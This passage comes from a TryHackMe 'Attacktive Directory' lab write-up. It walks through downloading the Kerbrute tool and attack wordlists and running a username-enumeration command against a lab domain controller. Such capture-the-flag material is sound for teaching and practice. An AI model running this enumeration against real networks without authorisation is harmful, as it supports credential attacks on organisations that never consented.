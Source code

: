 <img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/attacktivedirectory/attacktivedirectory02.png" width="50%">

3 - What invalid TLD do people commonly use for their Active Directory Domain?
* Read the documentation of the room

4 - What command within Kerbrute will allow us to enumerate valid usernames?
* Download Kerbrute and give execution permissions
* ```wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64```
* ```chmod +x kerbrute_linux_amd64```
* ```./kerbrute_linux_amd64 --help```

5 - What notable account is discovered? (These should jump out at you)
6 - What is the other notable account is discovered? (These should jump out at you)
* Lets download wordlists:
* ```wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt```
* ```wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt```
* ```./kerbrute_linux_amd64 userenum --dc=<ip-virtual-machine> -d=<dns-domain-name> userlist.txt```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/attacktivedirectory/attacktivedirectory03.png" width="50%">
